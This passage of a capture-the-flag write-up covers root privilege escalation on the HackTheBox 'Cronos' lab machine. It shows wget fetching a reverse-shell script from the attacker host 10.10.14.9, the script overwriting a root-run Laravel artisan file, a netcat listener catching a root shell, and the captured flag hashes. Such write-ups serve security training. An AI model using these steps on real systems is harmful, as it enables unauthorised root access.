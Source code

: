 ```bash
-rwxr-xr-x  1 www-data www-data 1836198 Apr  9  2017 composer.phar
drwxr-xr-x  2 www-data www-data    4096 Apr  9  2017 config
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 database
-rw-r--r--  1 www-data www-data    1062 Apr  9  2017 package.json
-rw-r--r--  1 www-data www-data    1055 Apr  9  2017 phpunit.xml
drwxr-xr-x  4 www-data www-data    4096 Apr  9  2017 public
-rw-r--r--  1 www-data www-data    3424 Apr  9  2017 readme.md
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 resources
drwxr-xr-x  2 www-data www-data    4096 Apr  9  2017 routes
-rw-r--r--  1 www-data www-data     563 Apr  9  2017 server.php
drwxr-xr-x  5 www-data www-data    4096 Apr  9  2017 storage
drwxr-xr-x  4 www-data www-data    4096 Apr  9  2017 tests
drwxr-xr-x 31 www-data www-data    4096 Apr  9  2017 vendor
-rw-r--r--  1 www-data www-data     555 Apr  9  2017 webpack.mix.js
```

Nice! The script is owned by `www-data` which means we can abuse this.

We can now change the `artisan` script to a malicious reverse shell script. OwO

To do this, we can create the malicious reverse shell script on our local machine and then transfer it over to the exploited machine.

```bash
www-data@cronos:/var/www/laravel$ wget http://10.10.14.9/revshell.php
wget http://10.10.14.9/revshell.php
--2022-04-22 10:21:02--  http://10.10.14.9/revshell.php
Connecting to 10.10.14.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [application/octet-stream]
Saving to: 'revshell.php'

     0K .....                                                 100% 13.8M=0s

2022-04-22 10:21:02 (13.8 MB/s) - 'revshell.php' saved [5491/5491]

www-data@cronos:/var/www/laravel$ cp revshell.php artisan
cp revshell.php artisan

- Another netcat listner -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Cronos]
└─# nc -nlvp 9999
listening on [any] 9999 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.13] 51508
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 10:22:01 up  1:25,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls /home
noulis
# cat /home/noulis/user.txt
51d236438b333970dbba7dc3089be33b
# cat /root/root.txt
1703b8a3c9a8dde879942c79d02fd3a0
```

